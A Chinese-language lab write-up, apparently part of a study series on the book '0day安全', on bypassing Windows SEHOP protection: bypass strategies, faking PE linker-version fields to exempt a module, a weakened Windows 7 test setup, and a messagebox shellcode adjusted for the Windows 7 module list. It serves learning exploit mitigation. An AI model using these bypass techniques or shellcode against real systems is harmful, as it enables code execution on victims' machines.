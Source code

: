 在这种缓解措施下，覆盖SEH异常处理函数指针的攻击方式不再有效，因为我们会将SEH节点指向下一个节点的指针覆盖为类空指令，从而使得SEHOP在遍历链表时发现无法遍历到`FinalExceptionHandler`，于是将发现异常。另外，该检查在SafeSEH的RtlIsValidHandler之前进行，所以用于绕过SafeSEH的方法（[0day安全 Chapter 11 亡羊补牢：SafeSEH](https://brant-ruan.github.io/0day/2018/06/17/0day11.html)）也均失效。

对此，绕过思路主要有三种：

- 不去攻击SEH
- 利用未启用SEHOP的模块
- 伪造SEH链

后面我们将分别说明。

## 攻击返回地址

也就是未启用GS的情况。不涉及SEH。略。

## 攻击虚函数

同样不涉及SEH。略。

## 利用未启用SEHOP的模块

微软没有在编译器中提供禁用SEHOP选项，但是出于兼容性考虑还是对一些程序禁用SEHOP，如Armadilo加壳的软件。操作系统根据PE头中`MajorLinkerVersion`和`MinorLinkerVersion`两个选项判断是否为程序禁用SEHOP。我们可以通过将它们分别设置为`0x53`/`0x52`来模拟被Armadilo加壳的程序。

由于绕过SEHOP后还需要绕过SafeSEH，所以我们在[0day安全 Chapter 11 亡羊补牢：SafeSEH](https://brant-ruan.github.io/0day/2018/06/17/0day11.html)的“利用未启用SafeSEH模块”实验的基础上来进行本次试验。

```
# 实验环境
测试环境: Windows 7 32位
漏洞程序编译器：VS 2008
系统SEHOP：启用
ASLR：关闭（其实只要DLL的ASLR禁用即可）
优化选项：禁用
DEP选项/NXCOMPAT: NO
GS: 关闭
build版本：release
```

DLL和漏洞测试程序代码不再贴出，可以在[0day安全 Chapter 11 亡羊补牢：SafeSEH](https://brant-ruan.github.io/0day/2018/06/17/0day11.html)获取。需要注意的是，Windows 7下的`PEB_LDR_DATA`指向的加载模块列表中第二个模块位置被`KERNELBASE.dll`占据，`kernel32.dll`位置由第二个变为第三个。所以我们的messagebox弹窗payload需要做相应修改：

```c
// 170 messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09"
"\x8b\x09" // add one more \x8b\x09 here! That is mov ecx, [ecx]
"\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8";
```
